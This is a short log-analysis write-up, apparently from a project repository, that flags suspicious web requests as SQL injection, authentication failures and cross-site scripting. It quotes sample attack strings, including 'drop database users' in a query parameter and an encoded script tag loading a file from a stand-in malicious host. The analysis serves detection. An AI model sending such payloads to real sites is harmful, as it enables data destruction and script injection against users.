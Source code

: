 ## Suspcious

### Injection Flaws:

Multiple entries like DELETE /admin/add_product?id=drop+database+users HTTP/1.0 and GET /admin/add_user?id=SELECT+name+FROM+users HTTP/1.0 indicate SQL injection attempts.
Similar attempts are observed in entries like POST /purchase/completed?id=SELECT+name+FROM+users HTTP/1.0.

### Broken Authentication Status Codes:

The presence of many HTTP 500, 502, and 504 error codes related to authentication endpoints (/login, /register) could indicate issues with authentication mechanisms.
Examples: POST /login HTTP/1.0 502, GET /login HTTP/1.0 504.

### Cross-Site Scripting (XSS):

Entries such as POST /register?data=%3cscript%20src=%22http%3a%2f%2fwww.badplace.com%2fnasty.js%22%3e%3c%2fscript%3 HTTP/1.0 show attempts to inject scripts.